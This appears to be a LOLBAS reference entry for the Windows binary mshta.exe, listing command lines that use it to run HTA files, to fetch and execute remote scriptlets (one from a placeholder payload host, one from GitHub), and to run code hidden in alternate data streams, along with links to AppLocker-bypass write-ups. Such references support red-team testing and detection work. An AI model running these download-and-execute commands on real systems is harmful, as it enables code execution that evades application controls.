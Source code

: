 ## mshta.exe

* Functions: Execute, Read ADS

```
mshta.exe evilfile.hta    

mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))    

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();     
    
mshta "C:\ads\file.txt:file.hta"
```

Acknowledgements:
* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe

Code sample:
* [Mshta_calc.sct](Payload/Mshta_calc.sct)

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md      
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4     
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct     
* https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/    
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

Notes:
SCT code borrowed from Red Canary - Atomic Red Team 

